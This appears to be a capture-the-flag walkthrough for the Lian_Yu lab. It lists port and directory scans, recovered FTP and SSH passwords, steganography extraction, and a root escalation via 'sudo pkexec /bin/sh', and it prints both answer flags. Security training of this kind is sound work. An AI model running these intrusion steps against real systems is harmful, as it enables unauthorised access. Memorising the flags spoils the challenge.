 # Lian_Yu

## What is the Web Directory you found?

- Scan port
    
    ```bash
    sudo nmap -sV -A -n -O 10.10.9.36
    ```
    
    > ftp
    ssh
    http
    > 
- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36 -w wordlist/dirbuster/directory-2-medium.txt
    ```
    
    > island
    > 
    - <h2 style="color:white"> vigilante</h2>
- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36/island -w wordlist/dirbuster/directory-2-medium.txt
    ```
    
    > 2100
    > 
    - <!-- you can avail your .ticket here but how? -→

---

## What is the file name you found?

- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36/island/2100 -w wordlist/dirbuster/directory-2-medium.txt -x ticket
    ```
    
    > /green_arrow.ticket (Status: 200)
    > 
    - `RTy8yhBQdscX`

---

## What is the FTP Password?

- `RTy8yhBQdscX`

<aside>
💡 HIT
     Looks like base? [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

</aside>

- From base58
    - `!#th3h00d`

---

## What is the file name with SSH password?

- Login fpt
    
    ```bash
    fpt 10.10.9.36
    vigilante
    !#th3h00d
    ```
    
- Get files
    
    ```bash
    ls -la
    get .other_user
    get Leave_me_alone.png
    get Queen's_Gambit.png
    get aa.jpg
    exit
    ```
    
- Scan images
    - exiftool
        - See the properties
            
            ```bash
            sudo apt install exiftool
            ```
            
        - Sintaxe
            
            ```bash
            exiftool <file>
            ```
            
    
    ---
    
    - Scan
        
        ```bash
        exiftool aa.jpg
        exiftool Leave_me_alone.png
        ```
        
        > Error : File format error
        > 
    
    ---
    
    - Signature png
        - [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
        
        ```bash
        Ctrl + f + png
        ```
        
        - `89 50 4E 47 0D 0A 1A 0A‰PNG␍␊␚␊`0
        png
        Image encoded in the Portable Network Graphics format[21]
    
    ---
    
    - hexedit
        - See hex
            
            ```bash
            sudo apt install hexedit
            ```
            
        - Sintaxe
            
            ```bash
            hexedit <file>
            ```
            
        - hexedit Leave_me_alone.png
        - Paste signature png
            
            ![Untitled](Untitled.png)
            
        - Save
    
    ---
    
    ![Leave_me_alone.png](Leave_me_alone.png)
    
    ---
    
    - Extract files
        - steghide
            - Extract files from inside another file
                
                ```bash
                sudo apt install steghide
                ```
                
            - Sintaxe
                
                ```bash
                To embed emb.txt in cvr.jpg: steghide embed -cf cvr.jpg -ef emb.txt
                To extract embedded data from stg.jpg: steghide extract -sf stg.jpg
                ```
                
                ```bash
                steghide extract -sf file.jpg
                ```
                
        
        ---
        
        - Extract files
            
            ```bash
            steghide extract -sf aa.jpg
            password
            unzip ss.zip
            cat shado
            ```
            
        
- `shado`

---

## user.txt

- cat .other_user
    - Slade Wilson was 16 years old when he enlisted in the […]
- slade M3tahuman
    
    ```bash
    ssh slade@10.10.9.36
    M3tahuman
    cat user.txt
    ```
    
- `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`

---

## root.txt

```bash
sudo -l -l
```

> /usr/bin/pkexec
> 
- [https://gtfobins.github.io/gtfobins/pkexec/](https://gtfobins.github.io/gtfobins/pkexec/)
    
    ```bash
    sudo pkexec /bin/sh
    sudo su
    cat root.txt
    ```
    
- `THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}`